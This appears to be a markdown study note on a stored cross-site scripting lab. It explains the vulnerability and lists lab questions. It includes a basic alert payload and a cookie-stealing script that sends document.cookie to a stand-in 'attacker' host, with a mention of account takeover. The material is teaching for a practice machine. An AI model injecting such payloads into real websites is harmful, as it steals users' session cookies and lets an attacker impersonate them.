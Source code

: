 # Stored XSS

- Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the website's database. This often happens when a website allows user input that is ***not sanitised*** (remove the **"bad parts"** of a user's input) when inserted into the database.
   
  ![Screenshot (820)](https://user-images.githubusercontent.com/63872951/183843240-6955d1d5-1a23-42e6-8be3-67dbf8544db7.png)
 
- A attacker creates a payload in a field when signing up to a website that is stored in the websites database. 
- If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload **to everyone** who visits it. 
- The payload could be as simple as `<script>alert(1)</script>`
- However, this payload won't just execute in your browser but any other browsers that display the malicious data inserted into the database.


# Answer the questions below

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

1. Add a comment and see if you can insert some of your own HTML.

Doing so will reveal the answer to this question.
```

```
2. Create an alert popup box appear on the page with your document cookies.
```

```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```

```
4. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

   `<script>window.location='http://attacker/?cookie='+document.cookie</script>`

   This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

   Take over Jack's account by stealing his cookie, what was his cookie value?
```

```
5. Post a comment as Jack.
```

```
